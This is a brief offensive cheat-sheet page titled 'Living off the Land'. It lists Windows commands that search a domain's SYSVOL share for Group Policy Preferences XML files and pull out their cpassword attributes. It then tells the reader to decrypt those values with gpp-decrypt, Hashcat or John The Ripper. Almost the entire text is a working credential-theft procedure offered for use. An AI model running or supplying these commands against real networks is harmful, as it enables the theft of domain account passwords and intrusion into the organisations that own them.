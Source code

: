 # Living off the Land

Use the `dir` command to find the XML file

`C:\> dir /s Groups.xml`

`C:\> findstr /s cpassword %LOGONSERVER%\sysvol\*.xml`

Copy the **cpassword** attribute after you've opened the XML file. Then decrypt it using `gpp-decrypt` utility or any other password cracking programs that is highly recommended like **Hashcat** or **John The Ripper**.

`C:\> type C:\path\to\GPP_file.xml`